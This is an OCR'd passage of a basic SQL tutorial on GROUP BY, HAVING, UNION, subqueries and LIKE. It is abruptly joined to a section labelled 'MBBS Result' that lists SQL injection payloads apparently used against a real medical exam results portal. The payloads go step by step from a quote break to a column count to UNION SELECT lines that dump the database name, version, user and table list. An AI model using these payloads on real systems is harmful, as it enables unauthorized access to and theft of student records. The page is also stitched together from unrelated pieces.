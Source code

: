 GROUP BY age;



🔹 13. HAVING – Conditions on groups



-- Get only age groups with more than 1 user

SELECT age, COUNT(\*) as user\_count

FROM users

GROUP BY age

HAVING COUNT(\*) > 1;



🔹 14. UNION – Combine results from multiple SELECTs



SELECT name FROM employees

UNION

SELECT name FROM managers;



🔹 15. Subquery – Query inside a query



SELECT name FROM users

WHERE age > (SELECT AVG(age) FROM users);



💡 Bonus: LIKE – Pattern matching



SELECT \* FROM users WHERE name LIKE 'Rak%';  -- Starts with "Rak"











**# MBBS Result :**



=> 1403836' -- #



=> 1403836' order by 14 -- # \[14 cols]



=> -1' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14 -- #  \[dumping seq - 3,5,10,11,4,13,14]



=> -1' union select 1,2,database(),4,version(),6,7,8,9,user(),current\_user,12,13,(select group\_concat(table\_name) from information\_schema.tables where table\_schema=database()) -- #
